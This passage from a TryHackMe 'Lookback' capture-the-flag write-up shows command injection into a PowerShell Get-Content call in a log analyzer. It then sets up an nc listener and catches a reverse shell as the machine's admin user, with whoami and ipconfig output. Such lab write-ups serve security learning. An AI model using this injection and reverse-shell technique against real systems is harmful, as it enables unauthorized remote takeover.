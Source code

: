 ![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/Lookback/images/Pasted%20image%2020230516153601.png)

**The log analyzer's Powershell command should be:**
```powershell
Get-Content('C:\" & path & "')
```

To escape that, we need to:

- Add `'`, to escape the string
- Add `);` to finish the command
- Add our commands that we want to inject
- Add `#` to comment out the `'`

Nice! We got RCE now!

**Let's get a shell!**

**Set up a `nc` listener:**
```shell
┌[siunam♥earth]-(~/ctf/thm/ctf/Lookback)-[2023.05.16|14:59:09(HKT)]
└> nc -lnvp 4444                     
listening on [any] 4444 ...
```

**Send the reverse shell payload:** (Generated from [revshells.com](https://www.revshells.com/))

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/Lookback/images/Pasted%20image%2020230516155021.png)

```shell
┌[siunam♥earth]-(~/ctf/thm/ctf/Lookback)-[2023.05.16|14:59:09(HKT)]
└> nc -lnvp 4444                     
listening on [any] 4444 ...
connect to [10.8.70.81] from (UNKNOWN) [10.10.113.159] 15439

PS C:\windows\system32\inetsrv> whoami;ipconfig
thm\admin

Windows IP Configuration


Ethernet adapter Ethernet 3:

   Connection-specific DNS Suffix  . : eu-west-1.compute.internal
   Link-local IPv6 Address . . . . . : fe80::25cc:9c59:642e:f48c%8
   IPv4 Address. . . . . . . . . . . : 10.10.113.159
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Default Gateway . . . . . . . . . : 10.10.0.1
```

